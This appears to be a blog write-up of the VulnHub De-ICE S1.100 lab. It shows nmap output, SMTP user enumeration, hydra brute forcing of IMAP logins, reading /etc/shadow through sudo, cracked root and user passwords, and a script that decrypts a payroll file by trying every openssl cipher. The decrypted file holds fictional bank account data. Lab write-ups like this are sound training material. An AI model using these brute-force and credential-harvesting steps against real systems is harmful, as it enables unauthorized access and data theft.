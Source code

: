 ```yaml
---
layout: post
title: "DE-ICE-S1.100"
date: 2015-05-09 20:55:07 +0200
comments: true
categories: [vulnhub, deice]
---
```

Image: [De-ICE: S1.100](https://www.vulnhub.com/entry/de-ice-s1100,8/)

The output from nmap:
{% codeblock %}
PORT    STATE  SERVICE  VERSION
20/tcp  closed ftp-data
21/tcp  open   ftp      vsftpd (broken: could not bind listening IPv4 socket)
22/tcp  open   ssh      OpenSSH 4.3 (protocol 1.99)
25/tcp  open   smtp     Sendmail 8.13.7/8.13.7
80/tcp  open   http     Apache httpd 2.0.55 ((Unix) PHP/5.1.2)
110/tcp open   pop3     Openwall popa3d
143/tcp open   imap     UW imapd 2004.357
443/tcp closed https
MAC Address: 00:0C:29:53:2F:A3 (VMware)
{% endcodeblock %}

We connect to the web site and save the staff names to the file:
{% codeblock %}
$ cat names.txt 
Marie Mary
Pat Patrick
Terry Thompson
Ben Benedict
Erin Gennieg
Paul Michael
Ester Long
Adam Adams
Bob Banter
Chad Coffee
{% endcodeblock %}

Using this script [namelist.py](https://gist.githubusercontent.com/superkojiman/11076951/raw/865a89c2db01c2a5589c534b7f56d1669dddf0ab/namemash.py)
we generate the potential login names:

{% codeblock %}
$ cat userlist.txt
mariemary
marymarie
marie.mary
mary.marie
marym
mmary
mmarie
m.mary
m.marie
marie
mary
patpatrick
patrickpat
pat.patrick
patrick.pat
patrickp
ppatrick
ppat
p.patrick
p.pat
pat
patrick
terrythompson
thompsonterry
terry.thompson
thompson.terry
thompsont
tthompson
tterry
t.thompson
t.terry
terry
thompson
benbenedict
benedictben
ben.benedict
benedict.ben
benedictb
bbenedict
bben
b.benedict
b.ben
ben
benedict
eringennieg
genniegerin
erin.gennieg
gennieg.erin
genniege
egennieg
gerin
e.gennieg
g.erin
erin
gennieg
paulmichael
michaelpaul
paul.michael
michael.paul
michaelp
pmichael
mpaul
p.michael
m.paul
paul
michael
esterlong
longester
ester.long
long.ester
longe
elong
lester
e.long
l.ester
ester
long
adamadams
adamsadam
adam.adams
adams.adam
adamsa
aadams
aadam
a.adams
a.adam
adam
adams
bobbanter
banterbob
bob.banter
banter.bob
banterb
bbanter
bbob
b.banter
b.bob
bob
banter
chadcoffee
coffeechad
chad.coffee
coffee.chad
coffeec
ccoffee
cchad
c.coffee
c.chad
chad
coffee
{% endcodeblock %}

In this case, the better way should be use SMTP enumeration:
{% codeblock %}
mail from: a@slax.example.net
250 2.1.0 a@slax.example.net... Sender ok
rcpt to: bbanter@slax.example.net
250 2.1.5 bbanter@slax.example.net... Recipient ok
rcpt to: bbanter
250 2.1.5 bbanter@slax.example.net... Recipient ok
rcpt to: aadam
550 5.1.1 aadam... User unknown
rcpt to: aadams
250 2.1.5 aadams... Recipient ok
{% endcodeblock %}

We use hydra to perform brute-force attack via imap service:
{% codeblock %}
$ hydra -L userlist.txt 192.168.1.100 imap -u -e nsr
[143][imap] host: 192.168.1.100   login: bbanter   password: bbanter
{% endcodeblock %}

After login as bbanter, we download the /etc/passwd file to create more accurate wordlist:
{% codeblock %}
$ cat userlist2.txt
aadams
ccoffee
{% endcodeblock %}

{% codeblock %}
$ hydra -L userlist2.txt 192.168.1.100 imap -u -P /usr/share/wordlists/rockyou.txt
[143][imap] host: 192.168.1.100   login: aadams   password: nostradamus
{% endcodeblock %}

We found no working exploit using [Linux_Exploit_Suggester](https://github.com/PenturaLabs/Linux_Exploit_Suggester).

User aadams is in the wheel group:
{% codeblock %}
/etc/passwd:
aadams:x:1000:10:,,,:/home/aadams:/bin/bash
/etc/group:
wheel::10:root
{% endcodeblock %}

Checking sudo -l reveals how to get root hash:
{% codeblock %}
$ sudo -l
User aadams may run the following commands on this host:
    (root) NOEXEC: /bin/ls
    (root) NOEXEC: /usr/bin/cat
    (root) NOEXEC: /usr/bin/more
    (root) NOEXEC: !/usr/bin/su *root*

aadams@slax:/tmp$ sudo cat /etc/shadow
root:$1$TOi0HE5n$j3obHaAlUdMbHQnJ4Y5Dq0:13553:0:::::
ccoffee:$1$nsHnABm3$OHraCR9ro.idCMtEiFPPA.:13550:0:99999:7:::
{% endcodeblock %}

Using John, we cracked these hashes:
{% codeblock %}
tarot            (root)
hierophant       (ccoffee)
{% endcodeblock %}

We find salary_dec2003.csv.enc in FTP directory and because there is suspicous
line in /etc/passwd (DO NOT CHANGE PASSWORD - WILL BREAK FTP ENCRYPTION), we
know that the password for this file could be the same as for root.

For this purpose, we wroted the following script:
{% codeblock lang:bash %}
$ cat crack-openssl.sh
#!/usr/bin/env bash

ciphers=`openssl list-cipher-commands`

for c in $ciphers; do
  openssl enc -d -"$c" -in salary_dec2003.csv.enc -k tarot -out csv/salary_dec2003.csv.$c-decrypted
done
{% endcodeblock %}

In a few gibberish files we read csv/salary_dec2003.csv.aes-128-cbc-decrypted:
{% codeblock %}
$ cat csv/salary_dec2003.csv.aes-128-cbc-decrypted  | head -15
,Employee information,,,,,,,,,,,,,,
,Employee ID,Name,Salary,Tax Status,Federal Allowance (From W-4),State Tax (Percentage),Federal Income Tax (Percentage based on Federal Allowance),Social Security Tax (Percentage),Medicare Tax (Percentage
),Total Taxes Withheld (Percentage),"Insurance
Deduction
(Dollars)","Other Regular
Deduction
(Dollars)","Total Regular Deductions (Excluding taxes, in dollars)","Direct Deposit Info
Routing Number","Direct Deposit Info
Account Number"
,1,Charles E. Ophenia,"$225,000.00",1,4,2.30%,28.00%,6.30%,1.45%,38.05%,$360.00,$500.00,$860.00,183200299,1123245
,2,Marie Mary,"$56,000.00",1,2,2.30%,28.00%,6.30%,1.45%,38.05%,$125.00,$100.00,$225.00,183200299,1192291
,3,Pat Patrick,"$43,350.00",1,1,2.30%,28.00%,6.30%,1.45%,38.05%,$125.00,$0.00,$125.00,183200299,2334432
,4,Terry Thompson,"$27,500.00",1,4,2.30%,28.00%,6.30%,1.45%,38.05%,$125.00,$225.00,$350.00,183200299,1278235
,5,Ben Benedict,"$29,750.00",1,3,2.30%,28.00%,6.30%,1.45%,38.05%,$125.00,$122.50,$247.50,183200299,2332546
,6,Erin Gennieg,"$105,000.00",1,4,2.30%,28.00%,6.30%,1.45%,38.05%,$125.00,$0.00,$125.00,183200299,1456567
,7,Paul Michael,"$76,000.00",1,2,2.30%,28.00%,6.30%,1.45%,38.05%,$125.00,$100.00,$225.00,183200299,1446756
{% endcodeblock %}
